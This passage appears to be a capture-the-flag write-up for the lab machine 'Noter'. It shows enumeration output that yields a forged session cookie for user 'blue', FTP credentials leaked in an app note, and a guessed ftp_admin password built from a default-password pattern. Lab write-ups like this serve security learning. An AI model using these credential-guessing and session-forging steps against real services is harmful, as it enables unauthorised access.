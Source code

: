 And found the user blue

```shell
./script.sh wl
...
 [+] user found: blue
        [+] this is the cookie: eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YvkR6A.cLoP9y92fQTuJmlVe3XAY2gaqLc

```

Now we are a VIP user and we have access to some notes that have credentials


```
Hello, Thank you for choosing our premium service. Now you are capable of
doing many more things with our application. All the information you are going
to need are on the Email we sent you. By the way, now you can access our FTP
service as well. Your username is 'blue' and the password is 'blue@Noter!'.
Make sure to remember them and delete this.
(Additional information are included in the attachments we sent along the
Email)

We all hope you enjoy our service. Thanks!

ftp_admin
```

I tried to login as blue with ssh but it did not work, however I tried ftp and it worked!.

```shell
ftp noter.htb
Connected to noter.htb.
220 (vsFTPd 3.0.3)
Name (noter.htb:dasor): blue
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
-rw-r--r--    1 1002     1002        12569 Dec 24  2021 policy.pdf
226 Directory send OK.
```

The policy pdf had interesting data like the line saying "4. Default user-password generated by the application is in the format of "username@site\_name!" (This applies to all your applications)". So that means we can connect as ftp\_admin with password ftp\_admin@Noter!


```shell
Connected to noter.htb.
220 (vsFTPd 3.0.3)
Name (noter.htb:dasor): ftp_admin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01  2021 app_backup_1638395546.zip
226 Directory send OK.
```
